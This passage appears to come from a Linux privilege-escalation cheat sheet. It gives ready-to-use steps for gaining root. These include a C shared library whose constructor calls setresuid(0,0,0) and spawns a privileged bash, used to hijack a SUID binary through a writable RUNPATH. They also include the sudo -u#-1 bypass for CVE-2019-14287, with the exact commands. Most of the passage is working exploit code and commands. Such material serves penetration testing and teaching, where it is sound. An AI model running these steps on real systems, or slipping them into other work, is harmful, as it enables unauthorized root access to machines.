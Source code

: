 Compile it using:

```bash
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```

And execute the binary.

## Shared Object Hijacking

```bash
# Lets find a SUID using a non-standard library
ldd some_suid
something.so => /lib/x86_64-linux-gnu/something.so

# The SUID also loads libraries from a custom location where we can write
readelf -d payroll  | grep PATH
0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

Now that we have found a SUID binary loading a library from a folder where we can write, lets create the library in that folder with the necessary name:

```c
//gcc src.c -fPIC -shared -o /development/libshared.so
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

If you get an error such as

```shell-session
./suid_bin: symbol lookup error: ./suid_bin: undefined symbol: a_function_name
```

that means that the library you have generated needs to have a function called `a_function_name`.

#### CVE-2019-14287

{% embed url="https://www.exploit-db.com/exploits/47502" %}

Joe Vennix found that if you specify a UID of -1 (or its unsigned equivalent: 4294967295), Sudo would incorrectly read this as being 0 (i.e. root). This means that by specifying a UID of -1 or 4294967295, you can execute a command as root, _despite being explicitly prevented from doing so_. It is worth noting that this will _only_ work if you've been granted non-root sudo permissions for the command

```bash
# Exploitable when a user have the following permissions (sudo -l)
(ALL, !root) ALL

# If you have a full TTY, you can exploit it like this
sudo -u#-1 /bin/bash
sudo -u#4294967295 id
```

